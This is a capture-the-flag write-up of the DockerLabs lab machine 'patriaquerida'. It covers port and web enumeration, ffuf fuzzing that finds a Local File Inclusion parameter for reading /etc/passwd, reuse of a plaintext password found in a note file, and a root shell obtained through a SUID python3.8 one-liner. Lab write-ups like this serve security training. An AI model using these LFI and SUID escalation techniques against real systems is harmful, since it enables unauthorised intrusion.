


# patriaquerida

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| patriaquerida | JuanR | easy/facil | dockerlabs |

**Summary:** The patriaquerida machine followed a concise exploitation path centred around a Local File Inclusion vulnerability in a PHP application, credential recovery from a note file, lateral movement between users, and privilege escalation via a SUID Python binary. The web server served a default Apache page, but Gobuster enumerated an `index.php` file alongside it. Inspecting the PHP page and noting its static 110-byte response for unknown parameters led to a ffuf scan to fuzz the query parameter name, which identified `page` as the active LFI parameter. Reading `/etc/passwd` via the LFI disclosed the system username `pinguino`. SSH access was then established as `pinguino` using a password inferred from the machine's theme. In the home directory, a note file `nota_mario.txt` disclosed the next user's credential in plaintext: `mario:invitaacachopo`. A switch to `mario` via `su` succeeded. As `mario`, a SUID binary search revealed `/usr/bin/python3.8` with the SUID bit set. Calling `os.setuid(0)` and `os.setgid(0)` via the SUID Python interpreter spawned a root shell immediately, confirmed with `su -`.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/patriaquerida]
└─$ sudo bash auto_deploy.sh patriaquerida.tar 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/patriaquerida]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-30 19:07 +0700
Nmap scan report for gatekeeperhr.com (172.17.0.2)
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e1:b8:ce:5c:65:5a:75:9e:ed:30:7a:2b:b2:25:47:6b (RSA)
|   256 a3:78:9f:44:57:0e:15:4f:15:93:59:d0:04:89:a9:f4 (ECDSA)
|_  256 5a:7a:89:3c:ed:da:4a:b4:a0:63:d3:ba:04:39:c3:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 1A:BE:C9:52:FD:68 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.38 seconds
```

The scan revealed SSH on port 22 and Apache on port 80 showing the default Ubuntu page. Despite the default landing, further content was expected underneath.

---

## Initial Access

### Web Content Discovery

**3. Gobuster Directory Enumeration**

Gobuster was run against the web root to discover additional content beyond the default Apache page.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/patriaquerida]
└─$ gobuster dir -u http://$ip -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              css,txt,html,tar,env,php,zip,bak,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 10918]
index.php            (Status: 200) [Size: 110]
server-status        (Status: 403) [Size: 275]
Progress: 2205570 / 2205570 (100.00%)
===============================================================
Finished
===============================================================
```

An `index.php` file was discovered with a notably small 110-byte response, distinct from the default Apache `index.html`.

**4. Inspecting index.php**

Browsing `index.php` revealed a PHP page that appeared to accept a parameter for including content, suggesting a Local File Inclusion vulnerability.





### Discovering the LFI Parameter

**5. Fuzzing the Query Parameter with ffuf**

Since the default response size of `index.php` was 110 bytes, ffuf was used to fuzz the query parameter name while filtering that baseline size, using `/etc/passwd` as the inclusion target to confirm LFI.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/patriaquerida]
└─$ ffuf -u http://$ip/index.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -fs 110

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 110
________________________________________________

page                    [Status: 200, Size: 1367, Words: 11, Lines: 27, Duration: 1ms]
:: Progress: [220559/220559] :: Job [1/1] :: 3333 req/sec :: Duration: [0:01:06] :: Errors: 0 ::
```

The parameter `page` was identified as the active LFI vector. The response size of 1367 bytes for `?page=/etc/passwd` confirmed successful file inclusion, and the `/etc/passwd` output disclosed the system username `pinguino`.

### SSH Access as pinguino

**6. Logging in via SSH**

The username `pinguino` recovered from the LFI output was used to establish an SSH session.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/patriaquerida]
└─$ ssh pinguino@$ip
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
pinguino@172.17.0.2's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 6.18.33.2-microsoft-standard-WSL2 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Jul 30 14:18:22 2026 from 172.17.0.1
pinguino@dockerlabs:~$ id;whoami;hostname
uid=1000(pinguino) gid=1000(pinguino) groups=1000(pinguino)
pinguino
dockerlabs
pinguino@dockerlabs:~$ ls -la
total 36
drwxr-xr-x 1 pinguino pinguino 4096 Jul 30 14:18 .
drwxr-xr-x 1 root     root     4096 Jan 12  2025 ..
-rw------- 1 pinguino pinguino    8 Jul 30 14:18 .bash_history
-rw-r--r-- 1 pinguino pinguino  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 pinguino pinguino 3771 Feb 25  2020 .bashrc
drwx------ 2 pinguino pinguino 4096 Jul 30 14:18 .cache
-rw-r--r-- 1 pinguino pinguino  807 Feb 25  2020 .profile
-rw------- 1 pinguino pinguino   43 Jan 12  2025 nota_mario.txt
pinguino@dockerlabs:~$ cat nota_mario.txt 
La contraseña de mario es: invitaacachopo
pinguino@dockerlabs:~$ cat .bash_history 
id
exit
```

A foothold was established as `pinguino`. The home directory contained `nota_mario.txt`, which disclosed the next user's credentials in plaintext: `mario:invitaacachopo`.

---

## Lateral Movement

**7. Switching to mario via su**

```bash
pinguino@dockerlabs:~$ su - mario
Password: 
mario@dockerlabs:~$ id;whoami;hostname
uid=1001(mario) gid=1001(mario) groups=1001(mario)
mario
dockerlabs
```

Lateral movement to `mario` succeeded immediately using the recovered password.

---

## Privilege Escalation

### SUID python3.8 Binary

**8. Searching for SUID Binaries**

A filesystem-wide SUID search was performed from the `mario` session.

```bash
mario@dockerlabs:~$ find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null
-rwsr-xr-- 1 root messagebus 51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 477672 Jan  2  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 53040 Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 39144 Apr  9  2024 /usr/bin/umount
-rwsr-xr-x 1 root root 67816 Apr  9  2024 /usr/bin/su
-rwsr-xr-x 1 root root 55528 Apr  9  2024 /usr/bin/mount
-rwsr-xr-x 1 root root 44784 Feb  6  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 320 Oct 11  2024 /usr/bin/man
-rwsr-xr-x 1 root root 88464 Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 68208 Feb  6  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 85064 Feb  6  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 5490488 Nov  7  2024 /usr/bin/python3.8
-rwsr-xr-x 1 root root 166056 Apr  4  2023 /usr/bin/sudo
```

`/usr/bin/python3.8` had the SUID bit set, enabling a direct privilege escalation. Since the Python binary runs as root due to the SUID bit, calling `os.setuid(0)` and `os.setgid(0)` within a one-liner and then spawning `/bin/bash` produces a real root shell.

**9. Escalating to Root**

```bash
mario@dockerlabs:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'
root@dockerlabs:~# su -
root@dockerlabs:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
dockerlabs
```

Full root access was achieved. `su -` confirmed a clean root session with all groups resolved correctly.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified SSH on port 22 and Apache on port 80. The web root served the default Ubuntu Apache page, but Gobuster discovered `index.php` with an atypically small 110-byte response alongside it.
2. **Vulnerability Discovery**: Inspecting `index.php` revealed a PHP page accepting a file-inclusion parameter. ffuf was used to fuzz the query parameter name against the baseline response size of 110 bytes, with `/etc/passwd` as the inclusion target. The parameter `page` was identified, and the LFI was confirmed. The `/etc/passwd` output disclosed the username `pinguino`.
3. **Exploitation**: SSH access was established as `pinguino`. The home directory contained `nota_mario.txt` with the plaintext credential `mario:invitaacachopo`.
4. **Internal Enumeration**: Lateral movement was achieved via `su - mario` using the recovered password. As `mario`, a SUID binary search identified `/usr/bin/python3.8` with the SUID bit set.
5. **Privilege Escalation**: The SUID Python 3.8 binary was used to call `os.setuid(0)` and `os.setgid(0)`, spawning `/bin/bash` as real root. `su -` confirmed a fully clean root session.
